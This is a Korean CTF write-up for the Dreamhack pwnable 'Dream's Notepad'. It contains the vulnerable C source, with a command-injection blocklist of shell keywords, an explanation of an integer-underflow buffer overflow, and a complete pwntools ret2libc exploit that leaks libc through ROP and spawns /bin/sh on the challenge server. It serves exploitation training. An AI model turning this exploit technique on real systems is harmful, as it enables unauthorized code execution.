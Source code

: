 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN Dream's Notepad"
excerpt: "드림핵 포너블 Dream's Notepad 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2023-02-08 18:30
---
```


드림핵 포너블 Dream's Notepad 문제이다. 이 문제를 다운받아 보면 바이너리와 소스코드만 주어진다. 문제 환경은 공개되어 있지 않다.

문제 출제자의 의도는 rtc기법을 사용하라고 일부러 그런것 같은데... rtc를 까먹고 ROP 노가다를 했다. 일단 소스코드를 살펴보자.

```c
//gcc -o Notepad Notepad.c -fno-stack-protector
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

void Initalize(){
   setvbuf(stdin, (char *)NULL, _IONBF, 0);
   setvbuf(stdout, (char *)NULL, _IONBF, 0);
   setvbuf(stderr, (char *)NULL, _IONBF, 0);
}

void main()
{
    Initalize();

    puts("Welcome to Dream's Notepad!\n");

    char title[10] = {0,};
    char content[64] = {0,};

    puts("-----Enter the content-----");
    read(0, content, sizeof(content) - 1);

    for (int i = 0; content[i] != 0; i++)
    {
        if (content[i] == '\n')
        {
            content[i] = 0;
            break;
        }
    }

    if(strstr(content, ".") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "/") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, ";") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "*") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "cat") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "echo") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "flag") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "sh") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "bin") != NULL) {
        puts("It can't be..");
        return;
    }

    char tmp[128] = {0,};

    sprintf(tmp, "echo %s > /home/Dnote/note", content);
    system(tmp);
    
    FILE* p = fopen("/home/Dnote/note", "r");
    unsigned int size = 0;
    if (p > 0)
    {
        fseek(p, 0, SEEK_END);
        size = ftell(p) + 1;
        fclose(p);
        remove("/home/Dnote/note");
    }

    char message[256];
    
    puts("\n-----Leave a message-----");
    read(0, message, size - 1);

    puts("\nBye Bye!!:-)");
}
```

첫번째로 read 함수를 통해 63만큼의 문자열을 입력 받고 블랙리스트 방식으로 문자열을 검사한다. 문제를 풀고 다른 분들의 풀이를 보니 커멘드 인젝션만으로 푸신 분들도 있었다.

블랙리스트 검사를 통과하면 echo를 통해 입력한 문자열을 쉘에 출력하고 출력한 값을 /home/Dnote/note에 저장한다. 이후 system함수를 통해 /home/Dnote/note에 저장된 데이터를 실행한다. 그 다음으로 fopen을 통해 /home/Dnote/note 파일을 오픈하는데 파일이 존재할 경우 size 변수에 파일 사이즈 +1을 해주고 파일을 삭제한다. 파일이 없으면 size는 초기화 상태인 0으로 고정된다.

이후 256사이즈의 버퍼에 read 함수를 통해 입력 받는데 입력 가능한 사이즈는 size-1이다. 여기서 unsigned int와 signed int변환 간에 생기는 취약점이 있다. 위의 fopen으로 오픈한 파일이 존재하지 않으면 size 변수는 0을 가지고 있는데 여기서 -1을 해 사이즈를 지정한다. 이때 보수 연산을 통해 결국 read가 읽을 수 있는 값은 int의 가장 큰 수가 된다. 따라서 버퍼 오버플로우를 일으킬 수 있다.

---

내가 작성한 익스플로잇을 간단히 설명해보겠다. 

우선 버퍼 오버플로우가 가능하려면 /home/Dnote/note 파일이 존재하지 않아야 한다. 따라서 백틱( ` )을 이용해 오류를 발생시켜 파일이 생성되지 않도록 했다. 백틱은 쌍을 이뤄 사용해야 한다. 하나만 사용되면 오류가 발생해 백틱을 열었으면 백틱을 한번 더 입력 해 닫아줘야 한다.

ROP를 통해서 read_got를 put_plt 함수로 출력하고 이후 다시 main함수로 돌아온다. gdb를 통해 확인한 결과 rbp-0x1e0를 통해 read 한 데이터를 입력 받고 있었다. 0x1e0를 dec로 바꾸면 480이고 sfp를 포함하면 488만큼 메모리를 덮어줘야 한다. 이후 pop rdi; ret 가젯을 사용했다.

출력된 read 함수 주소를 이용해 libc base 주소를 계산하고 libc의 system함수 주소와 bin/sh 주소를 찾아 다시 버퍼 오버플로우를 통해 쉘을 실행시켰다.

이런 방법에 문제는 해당 문제의 환경을 모르기 때문에 환경에 따른 libc 오프셋이 바뀔 수 있다는 것디아. 실제로 우분투 16 18 20 22 버전의 libc를 각각 전부 돌려 쉘을 획득 할 수 있었다.

문제를 풀긴 풀었지만... 정석대로 풀려면 rtc 공격을 활용해야 한다.


```python
from pwn import *
context.update(arch='amd64', os='linux')

c = remote("host3.dreamhack.games", 12708);
#c = process("./Notepad")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

c.sendafter(b"-----Enter the content-----\n", b"`")
#pop rdi; ret 0x400c73
pr = 0x400c73
read_got = 0x602040
put_plt = 0x400730
main = 0x400957

payload = p64(pr)+p64(read_got)+p64(put_plt)+p64(main)
payload = b"a"*488 + payload
c.sendafter(b"-----Leave a message-----\n", payload)

c.recvuntil(b"Bye Bye!!:-)\n")
libc_base = u64(c.recv(6)+b"\x00\x00")-libc.sym['read']
print("libc_base : "+hex(libc_base))

system = libc_base + libc.sym['system']
print(f"system : {hex(system)}")
binsh = libc_base+list(libc.search(b'/bin/sh'))[0]
print(f"binsh : {hex(binsh)}")

payload2 = p64(pr)+p64(binsh)+p64(system)
payload2 = b"a"*488 + payload2

c.sendafter(b"-----Enter the content-----\n", b"`")

c.sendafter(b"-----Leave a message-----\n", payload2)
c.interactive()

```